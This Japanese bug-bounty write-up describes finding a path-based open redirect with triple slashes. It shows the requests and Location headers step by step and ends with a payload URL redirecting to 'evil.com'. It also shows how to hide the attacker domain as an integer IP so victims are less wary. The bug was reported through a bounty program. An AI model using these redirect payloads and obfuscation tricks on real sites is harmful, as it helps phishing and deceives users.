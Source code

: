 # Request-URIのパスからのオープンリダイレクト 実践編

とある企業の非公開報奨金制度で[Request-URIのパスからのオープンリダイレクト](/2018/open_redirect_via_path.md)を発見した。その検出に至るまでの手順が興味深く、HackerOneのレポートにも類似の挙動は見当たらなかったため、詳細をまとめておく。

対象サイトのトップにアクセスした際の正常なレスポンスは以下である。

hxxps://www[.]example.com/

```http
HTTP/1.1 200 OK
...
<title>Example Domain</title>
```

パスの値によるレスポンスの変化を手掛かりに脆弱性を発見した。

## 検出手順

まず、任意のパスに `GET /xxx HTTP/1.1` でリクエストすると、トレイリングスラッシュを追加するリダイレクトが発生する。

hxxps://www[.]example.com/xxx

```http
HTTP/1.1 301 Moved Permanently
...
Location: /xxx/
```

つぎに、ドメイン直後のスラッシュを2つにして `GET //xxx HTTP/1.1` でリクエストするも、レスポンスに変化は見られない。

hxxps://www[.]example.com//xxx

```http
HTTP/1.1 301 Moved Permanently
...
Location: /xxx/
```

しかし、スラッシュを3つにして `GET ///xxx HTTP/1.1` でリクエストすると、トップへのリダイレクトが発生する。

hxxps://www[.]example.com///xxx

```http
HTTP/1.1 301 Moved Permanently
...
Location: /
```

また、トレイリングスラッシュを追加して `GET ///xxx/ HTTP/1.1` でリクエストすると、トップのコンテンツが返る。

hxxps://www[.]example.com///xxx/

```http
HTTP/1.1 200 OK
...
<title>Example Domain</title>
```

さらに、トレイリングスラッシュの直後に `zzz` を追加すると、上位階層の `xxx` を無視したリダイレクトとなる。

hxxps://www[.]example.com///xxx/zzz

```http
HTTP/1.1 301 Moved Permanently
...
Location: /zzz/
```

そこで、`zzz` の直前のスラッシュを2つにしてリクエストすると、レスポンスのLocationヘッダの先頭に `//` を挿入できた。

hxxps://www[.]example.com///xxx//zzz

```http
HTTP/1.1 301 Moved Permanently
...
Location: //zzz/
```

## 実証

Locationヘッダに `//` から始まるスキームを省略した形式の絶対パスを挿入することで、外部サイトへのリダイレクトが発生する。

hxxps://www[.]example.com///xxx//evil.com

![open_redirect](https://user-images.githubusercontent.com/5434303/49969638-5c023700-ff6c-11e8-9e99-bef36a2f2ce4.png)

上記のURLには攻撃者の所有するドメインが含まれているため、警戒心の強い被害者は不信感を抱く可能性が高い。固定IPアドレスが振られたドメインであれば整数変換により難読化できる。例えば `evil.com` のIPアドレス `66.96.146.129` は `1113625217` に変換できる<sup id="f1">[1](#fn1)</sup><sup id="f2">[2](#fn2)</sup>。パスに含まれる階層 `xxx` は任意の文字列に置き換えられるため、攻撃者は対象サイトの特性に合わせて以下のようなURLに偽装することで被害者を誘導できるだろう。

hxxps://www[.]example.com///articles//1113625217/index.html

```http
HTTP/1.1 301 Moved Permanently
...
Location: //1113625217/index.html/
```

## 所感

Request-URIのパスからの入力に起因する脆弱性の検出は、サイト仕様の把握やアカウント作成などの事前準備が不要なため、気軽に調査を開始できる。今回は `//xxx` と `///xxx` のレスポンスの差異に気付けたため、その挙動をオープンリダイレクトにつなげられた。気軽に何も考えずにスラッシュを3つ入力したことが要因となった。

発見した脆弱性はサイト運営会社の報奨金制度へ報告した。Severity（深刻度）はLowと評価されたため報奨金は$100〜$500になる見込み。さらにスコープ内の他4つのドメインでも同様の脆弱性を発見し、それぞれ認定されている。少額な脆弱性も横展開できるとおいしい。

---

<sup id="fn1">[1](#f1)</sup> DNSの逆引きができないため、実際には `1113625217` にアクセスしても `evil.com` は表示されない。一例として記載する。  
<sup id="fn2">[2](#f2)</sup> 変換後のIPアドレスは[How to Obscure Any URL](http://www.pc-help.org/obscure.htm)を参考に `66 * 256 + 96 = * 256 + 146 = * 256 + 129 =` で求めた。  